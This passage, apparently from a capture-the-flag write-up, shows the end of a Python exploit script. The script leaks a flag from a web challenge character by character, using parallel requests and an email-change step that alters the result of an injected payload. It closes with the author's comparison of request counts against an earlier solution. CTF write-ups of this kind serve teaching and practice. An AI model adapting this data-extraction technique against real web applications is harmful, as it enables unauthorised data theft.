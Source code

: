 ``` py
ans = [' '] * length

with concurrent.futures.ThreadPoolExecutor(max_workers=FLAG_LENGTH) as executor:
    futures = {executor.submit(leak_char, 1, i): i for i in range(length)}
    for future in concurrent.futures.as_completed(futures):
        index = futures[future]
        data = future.result()
        ans[index] = data

# we update the email to let our payload return another result
print(switch_email)
session.post(EDIT_URL, data={
  "email": switch_email
})
req_count += 1

print("leaking flag second round")
print(ans)

with concurrent.futures.ThreadPoolExecutor(max_workers=FLAG_LENGTH) as executor:
    futures = {executor.submit(leak_char, 2, i): i for i in range(length)}
    for future in concurrent.futures.as_completed(futures):
        index = futures[future]
        data = future.result()
        ans[index] = chr(int(data)*10 + int(ans[index]) + 27)
        print("".join(ans))

print(f"time: {time.time() - start}s, {req_count} requests")
```

For this ultimate solution, it takes 5.3s and 19 + 2 + 3 * 19 = 78 requests!

Compared to my previous solution which makes 185 requests, we reduced the number by half, what a big progress!

Again, credits to @antonio345 who offers the initial idea and also the POC, we discussed and improved the code together. It's fun to see how far we can go.

